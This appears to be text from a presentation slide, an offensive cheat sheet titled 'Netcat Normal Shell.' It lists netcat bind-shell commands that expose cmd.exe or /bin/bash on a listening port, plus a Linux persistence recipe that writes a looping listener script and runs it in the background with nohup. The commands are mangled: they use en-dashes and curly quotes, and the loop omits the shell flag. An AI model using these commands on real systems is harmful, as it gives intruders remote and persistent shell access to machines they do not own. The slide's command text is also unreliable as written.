

Netcat Normal Shell

nc –Lp PORT –e cmd.exe 	For a Windows Machine
nc –lp PORT –e /bin/bash	For a Linux Machine

Persistance on Linux
echo “while [ 1 ]; do nc –lp PORT; done” > listener.sh
chmod 555 listener.sh
nohup ./listener.sh &